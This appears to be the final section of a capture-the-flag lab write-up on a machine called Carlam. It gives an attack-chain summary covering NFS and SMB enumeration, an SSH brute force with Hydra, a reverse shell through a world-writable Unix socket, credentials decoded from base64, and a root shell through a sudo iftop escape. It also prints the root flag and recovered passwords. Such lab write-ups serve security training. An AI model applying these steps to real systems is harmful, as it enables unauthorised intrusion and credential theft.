

---

### Root Access Verification

**Shell Verification:**

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

whoami
# root
```

Privilege Escalation Complete:

**State:** root super user

### Proof of Compromise:

Root Flag Retrieval

```bash
cat /root/root.txt
# 9755cbb374f1a6b47d52160a452b7084
```

Root Flag Obtained: ✓



### Vulnerability Summary

**Critical Findings**

| # | Vulnerability       |     Effect |   CVSS | Impact |  Exploited |
| --- | --- | --- | --- | --- | --- |
| 1 |  NFS Shares Exported to Wildcard (*)  |    High |   7.5 | Information disclosure, intelligence gathering |      ✓ |
| 2 | Weak SMB Password Policy  |    High |   7.8 | Account compromise via brute force |      ✓ |
| 3 | Predictable Password Patterns |    Medium |   6.5 | Credential guessing enabled |       ✓ |
| 4 | World-Writable Unix Socket (777) |    Critical |    8.8 | Lateral movement to privileged user |        ✓ |
| 5 | Base64-Encoded Credentials in Files |    High |    7.2 | Credential theft, lateral movement  |        ✓ |
| 6 | Sudo Misconfiguration (iftop)  |    Critical |    8.8 | Privilege escalation to root |         ✓ |

## Attack Chain Visualization

```
┌──────────────────────────────────────────────────────────────────────┐
│                       ATTACK FLOW DIAGRAM                            │
└──────────────────────────────────────────────────────────────────────┘
[1] Network Discovery
          │
          ├──> nmap -sn (host discovery)
          │
          └──> Target identified: 10.111.170.213
                  │
                  ↓
[2] Port Scanning & Service Enumeration
          │
          ├──> Nmap full port scan
          │
          └──> Services: SSH, SMB, NFS, RPC
                  │
                  ↓
[3] NFS Enumeration
          │
          ├──> showmount -e (export discovery)
          │
          ├──> /srv/share mounted successfully
          │
          └──> Files analyzed: carlampio.jpg, microrelato.txt, .notes
                  │
                  ↓
[4] SMB User Enumeration
          │
          ├──> enum4linux -a
          │
          └──> Users discovered: carlampio, xiroi, aitana
               Password policy: weak (min 5 chars, no complexity)
                  │
                  ↓
[5] Intelligence Analysis & Weaponization
          │
          ├──> Pattern identification from NFS files
          │
          ├──> Custom wordlist generation (Python script)
          │
          └──> Targeted password combinations created
                  │
                  ↓
[6] SSH Brute Force Attack
          │
          ├──> Hydra with custom wordlist
          │
          └──> Credentials found: carlampio:C4rl4mp10
                  │
                  ↓
[7] Initial Access: carlampio
          │
          ├──> SSH authentication successful
          │
          └──> User flag obtained
                  │
                  ↓
[8] Post-Exploitation Enumeration
          │
          ├──> LinPEAS transferred via SCP
          │
          ├──> Automated scanning executed
          │
          └──> Critical finding: /tmp/app.sock (777 permissions)
                  │
                  ↓
[9] Unix Socket Exploitation
          │
          ├──> Socket interaction: whoami → xiroi
          │
          ├──> help command revealed shell function
          │
          ├──> Netcat listener started on target
          │
          └──> Reverse shell triggered
                  │
                  ↓
[10] Lateral Movement: xiroi
          │
          ├──> Shell received as xiroi user
          │
          ├──> Home directory enumeration
          │
          └──> .conf/credentials.txt found (base64-encoded)
                  │
                  ↓
[11] Credential Decryption
          │
          ├──> Base64 decoded: 41t4n4S_S3cr3t
          │
          └──> Credentials for aitana obtained
                  │
                  ↓
[12] Lateral Movement: aitana
          │
          ├──> su - aitana (successful)
          │
          └──> Sudo permissions checked
                  │
                  ↓
[13] Privilege Escalation
          │
          ├──> sudo -l: (root) NOPASSWD: /usr/sbin/iftop
          │
          ├──> GTFOBins research: iftop shell escape
          │
          ├──> sudo iftop executed
          │
          ├──> ! command → /bin/ash
          │
          └──> Root shell obtained
                  │
                  ↓
     [14] COMPLETE SYSTEM COMPROMISE
          │
          ├──> Root flag obtained
          │
          └──> Mission accomplished
```

---

## Tools & Techniques Used

| Tool | Purpose | Version |
| --- | --- | --- |
| Nmap | Network reconnaissance & port scanning | 7.94 |
| Netdiscover | Host discovery via ARP | 0.10 |
| showmount | NFS export enumeration | nfs-utils |
| enum4linux | SMB/Samba enumeration | 0.9.1 |
| Python 3 | Custom wordlist generation | 3.11 |
| Hydra | SSH brute force attack | 9.5 |
| SCP | Secure file transfer | OpenSSH |
| LinPEAS | Automated Linux enumeration | Latest |
| socat | Unix socket interaction | 1.7.4 |
| Netcat | Reverse shell listener | Traditional |
| Base64 | Credential decoding | GNU coreutils |
| iftop | Network monitoring (privilege escalation) | 1.0 |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Implementation |
| --- | --- | --- | --- |
| Reconnaissance | Active Scanning: Scanning IP Blocks | T1595.001 | nmap -sn for host discovery |
| Reconnaissance | Active Scanning: Vulnerability Scanning | T1595.002 | nmap -sV -sC for service enumeration |
| Resource Development | Develop Capabilities: Malware | T1587.001 | Custom wordlist generator script |
| Initial Access | Valid Accounts: Local Accounts | T1078.003 | SSH brute force with discovered credentials |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Bash commands, shell scripts |
| Persistence | Account Manipulation | T1098 | Potential for credential modification |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo | T1548.003 | iftop sudo exploitation |
| Defense Evasion | Obfuscated Files or Information: Indicator Removal | T1027 | Base64 encoding of credentials |
| Credential Access | Unsecured Credentials: Credentials In Files | T1552.001 | Base64 credentials in .conf files |
| Discovery | Network Service Discovery | T1046 | Port scanning, service enumeration |
| Discovery | File and Directory Discovery | T1083 | Home directory enumeration |
| Discovery | System Network Configuration Discovery | T1016 | Network interface enumeration |
| Lateral Movement | Remote Services: SSH | T1021.004 | User switching via discovered credentials |
| Collection | Data from Local System | T1005 | File extraction from NFS shares |

---

## Conclusion

The Carlam machine was successfully compromised through a sophisticated multi-stage attack leveraging NFS misconfigurations, weak authentication mechanisms, insecure inter-process communication, poor secrets management, and sudo privilege abuse. The engagement demonstrates the importance of:

- **Proper access control on network services** (NFS, SMB)
- **Strong password policies and enforcement**
- **Secure inter-process communication mechanisms**
- **Comprehensive system hardening**

**Attack Statistics:**

- **Difficulty Rating:** Easy/Medium (requires custom tooling and multiple pivots)
- **Lateral Movements:** 2 (carlampio → xiroi → aitana)
- **Privilege Escalation:** 1 (aitana → root)

**Primary Learning Outcomes:**

- Advanced enumeration techniques (NFS, SMB, Unix sockets)
- Custom exploit development (wordlist generation)
- Lateral movement strategies
- Linux privilege escalation via sudo abuse
- Complete penetration testing methodology

This engagement emphasizes that system security is only as strong as its weakest component, and comprehensive security hardening requires attention to every layer of the infrastructure.

---

**Happy Hacking!**